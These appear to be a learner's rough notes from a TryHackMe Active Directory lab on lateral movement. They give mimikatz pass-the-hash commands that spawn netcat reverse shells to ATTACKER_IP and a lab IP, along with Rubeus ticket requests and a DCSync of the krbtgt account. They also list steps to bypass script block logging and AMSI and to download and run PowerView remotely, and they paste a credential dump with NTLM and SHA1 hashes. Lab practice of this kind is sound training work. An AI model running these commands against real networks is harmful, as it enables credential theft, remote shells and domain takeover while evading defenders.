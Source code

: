 	```
	mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:HAHS /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
	u can chaneg /rc4 to whatever key u get /aes128:HAHS, /aes265:hash
	```
	- OPTH logged as logon type 9 same as RunAs 
	- Below doesn't need elevation
		`Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt`
	- Below command needs elevation
		`Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`
- DcSync: `SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"`


AV evation -> obfication such: sbloggingbypass
EDR evation
delviry of thr payload
detection by sysmon -> logon, process creation

learing objective 7steps:
1. downgrade powershell to v2 if posiable
2. bypass the script block logging -> `sbloggingbypass.txt`
3. bypass AMSI 
4. enum : load powerview -> `iex ((New-Object Net.WebClient).DownloadString('..ps1'))` 
5. `find-domainuserlocation` where current user have local admin session and domain admin session on that machine



```
Authentication Id : 0 ; 622017 (00000000:00097dc1)                                                                                                                                                                                          
Session           : RemoteInteractive from 3                                                                                                                                                                                                
User Name         : t1_toby.beck
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 3/13/2025 8:54:04 AM
SID               : S-1-5-21-3330634377-1326264276-632209373-4607
        msv :
         [00000003] Primary
         * Username : t1_toby.beck
         * Domain   : ZA
         * NTLM     : 533f1bd576caa912bdb9da284bbc60fe
         * SHA1     : 8a65216442debb62a3258eea4fbcbadea40ccc38
         * DPAPI    : d9cd92937c7401805389fbb51260c45f 


sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"c:\tools\nc64.exe -e cmd.exe 10.50.100.248 5555"
```